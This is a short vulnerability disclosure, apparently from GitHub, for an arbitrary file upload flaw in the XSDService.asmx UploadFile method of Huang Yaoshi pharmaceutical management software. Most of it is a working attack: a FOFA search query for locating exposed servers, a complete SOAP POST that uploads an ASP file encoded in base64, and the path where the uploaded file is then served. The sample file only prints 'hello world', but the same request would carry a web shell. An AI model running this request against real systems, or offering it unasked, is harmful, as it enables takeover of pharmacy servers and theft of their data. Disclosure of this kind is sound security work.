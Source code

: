 
## fofa
```
body="XSDService.asmx"
```
![image](https://github.com/user-attachments/assets/b9d2708e-7429-47c3-a346-38f380def928)

## product

 Huang Yaoshi Pharmaceutical Management Software

## Vendor of Product

https://product.11467.com/info/2149952.htm

## VERSION

 Huang Yaoshi Pharmaceutical Management Software <= 16.0

## Vulnerability Type

File Upload

## Description
There is an arbitrary file upload vulnerability in UploadFile under the/XSDService.asmx file of the "Huang Pharmacist" drug management software. Attackers can upload arbitrary files and gain server privileges



## POC：
```
POST /XSDService.asmx HTTP/1.1
Host: 
Content-Type: text/xml; charset=utf-8
Content-Length: length
SOAPAction: "http://tempuri.org/UploadFile"

<?xml version="1.0" encoding="utf-8"?>
<soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
  <soap:Body>
    <UploadFile xmlns="http://tempuri.org/">
      <filePath></filePath>
      <fileName>1.asp</fileName>
      <buffer>PCUgcmVzcG9uc2Uud3JpdGUoImhlbGxvIHdvcmxkIiklPg==</buffer>
      <Offset>1111</Offset>
    </UploadFile>
  </soap:Body>
</soap:Envelope>
```
![image](https://github.com/user-attachments/assets/2a0bd71d-3282-4c6d-8991-b5d0414a02ef)

Then you can find the uploaded file in the following directory of the website: /Upload2015/1.asp
![image](https://github.com/user-attachments/assets/023c6bdf-9b77-4997-bc2c-df016c5a3861)






